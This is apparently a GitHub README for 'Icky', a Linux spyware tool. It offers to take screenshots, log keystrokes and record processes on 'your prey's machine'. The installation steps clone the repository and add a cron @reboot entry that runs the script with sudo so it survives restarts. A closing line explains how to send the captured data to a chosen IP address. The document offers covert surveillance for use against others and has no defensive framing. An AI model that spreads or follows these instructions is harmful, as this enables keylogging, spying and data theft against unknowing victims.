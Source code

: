 <h2><b><u> Icky </u> - The Computer Contagion </b></h2><br><br>
<i><b> A Linux Virus </b></i><br><br>
<p> This virus will take screenshots, log keystrokes, and record system processes on your prey's machine.<br>
This virus will have to be manually installed on the desired machine and will have to have sudo privileges.</p><br><br>
<h3><strong><u> Installation: </u></strong></h3><br><br>
<ul>
  <li> 1. `git clone https://www.github.com/Domitius/Icky` </li>
  <li> 2. `cd Icky` </li>
  <li> 3. `chmod +x Icky_Sticky.sh` </li>
  <li> 4. `crontab -e` and type `@reboot sudo /path/to/Icky_Sticky.sh` </li>
</ul>
<br>
<h4><b> If you want the results of the virus (screenshots, keylogs, and processs) sent to a IP <br>
edit Icky_sticky.sh and replace PASSWORD and IP with desired information</b></h4>

~Domitius
